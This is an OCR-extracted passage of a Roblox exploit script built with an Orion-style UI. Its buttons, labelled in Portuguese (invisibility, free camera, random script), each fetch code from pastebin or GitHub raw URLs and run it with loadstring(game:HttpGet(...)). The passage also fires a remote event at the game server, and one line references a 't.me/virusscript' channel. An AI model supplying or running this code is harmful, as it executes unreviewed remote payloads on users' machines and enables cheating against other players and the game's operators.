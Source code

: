game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

local Tab = Window:MakeTab({
	Name = "scripts v3🥶",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

--[[
Name = <string> - The name of the tab.
Icon = <string> - The icon of the tab.
PremiumOnly = <bool> - Makes the tab accessible to Sirus Premium users only.
]]

Tab:AddButton({
	Name = "script de invisível",
	Callback = function()
      		print("button pressed")
--t.me/virusscript--
loadstring(game:HttpGet("https://pastebin.com/raw/TPs8NKu7"))()
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

Tab:AddButton({
	Name = " script camera livre",
	Callback = function()
      		print("button pressed")loadstring(game:HttpGet('https://raw.githubusercontent.com/GhostPlayer352/Test4/main/Freecam'))()
  	end    
})

--[[
Name = <string> - The name of the button.
Callback = <function> - The function of the button.
]]

Tab:AddButton({
	Name = "script aleatório",
	Callback = function()
      		print("button pressed")loadstring(game:HttpGet("https://raw.githubusercontent.com/Davizinhofprest/Scriptrobloxzkm/refs/heads/main/Zkmteam/Iniciar/Hubzkmzeltau.txt"))()
  	end    
})
